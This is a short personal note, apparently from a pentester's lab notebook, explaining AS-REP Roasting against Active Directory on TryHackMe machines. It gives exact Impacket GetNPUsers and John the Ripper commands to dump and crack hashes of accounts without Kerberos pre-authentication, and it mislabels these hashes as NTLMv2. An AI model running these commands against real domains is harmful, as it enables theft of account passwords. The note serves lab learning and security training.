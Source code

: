 ```yaml
---
layout: post
title: AS-REP Roasting using Impacket
description: AS-REP Roasting using Impacket
summary: AS-REP Roasting using Impacket
tags: [windows,ad,kerberos,foothold]
minute: 1
---
```

## Overview
* With valid usernames, attacker can intercept NTLMv2 hash and crack it to get the password because pre-authentication phase is disabled
* One way of getting valid usernames is to use [[Kerbrute]] technique
* See [[AS-REP]] for theory behind this attack

## Steps
* Add DC entry to hosts file

```
10.10.135.224 SPOOKYSEC.local
```

* Get a list of valid accounts using [[Kerbrute]]
* Put them into a txt file

```
svc-admin@spookysec.local
James@spookysec.local
robin@spookysec.local
darkstar@spookysec.local
administrator@spookysec.local
backup@spookysec.local
paradox@spookysec.local
JAMES@spookysec.local
Robin@spookysec.local
Administrator@spookysec.local
```

* Run impacket to determine what accounts are AS-REP roastable

```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py SPOOKYSEC.local/ -usersfile users.txt -format john -outputfile out.john -no-pass
```

* Here is an example output.

![](/spindel/assets/AS-REP%20Roasting%20using%20Impacket/76430BF0-31FD-4DBF-A15F-81F0CFB51661.png)

* Crack the hashes and enjoy!

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt out.john
```

## Gotchas
I encounter an issue on THM ra box. Output tells that user doesn’t require preauth set.

```
[-] User buse@windcorp.thm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

But then there was no hashes dumped. When I checked the connections in wireshark, I see that its requiring pre auth!

![](/spindel/assets/AS-REP%20Roasting%20using%20Impacket/A89116D4-A26E-46F4-9C17-44EF3E91FA4D.png)
